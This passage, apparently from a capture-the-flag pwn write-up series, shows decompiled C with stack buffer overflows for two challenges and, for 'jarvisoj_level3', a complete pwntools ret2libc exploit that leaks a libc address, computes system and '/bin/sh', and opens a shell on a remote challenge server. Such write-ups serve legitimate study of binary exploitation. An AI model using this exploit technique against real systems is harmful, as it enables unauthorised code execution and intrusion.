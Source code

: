 ## 0x1D.jarvisoj_level3

```c
ssize_t vulnerable_function()
{
  char buf[136]; // [esp+0h] [ebp-88h] BYREF

  write(1, "Input:\n", 7u);
  return read(0, buf, 0x100u);
}
```

```python
from pwn import *
context(log_level='debug')
#io = process("./level3")
io = remote("node3.buuoj.cn",28043)
elf = ELF("./level3")
libc = ELF("./libc-2.23.so")
write_plt = elf.sym['write']
fun_add = 0x0804844B
write_got = elf.got['write']
payload = 'a'*0x88 +'bbbb' + p32(write_plt) + p32(fun_add) + p32(1)+ p32(write_got)  + p32(4)
io.recv()
io.sendline(payload)
write_add = u32(io.recv(4))
print hex(write_add)
io.recvuntil("Input:\n")
base = write_add - libc.sym['write']
sys_add = base + libc.sym['system']
bin_sh = base + libc.search('/bin/sh').next()
payload = 'a'*0x88 +'bbbb' + p32(sys_add) +p32(0x10086110) + p32(bin_sh)
io.sendline(payload)
io.interactive()
```

## 0x1E.[Black Watch 入群题]PWN

```c
ssize_t vul_function()
{
  size_t v0; // eax
  size_t v1; // eax
  char buf[24]; // [esp+0h] [ebp-18h] BYREF
  v0 = strlen(m1);
  write(1, m1, v0);
  read(0, &s, 0x200u);
  v1 = strlen(m2);
  write(1, m2, v1);
  return read(0, buf, 0x20u);
}
```

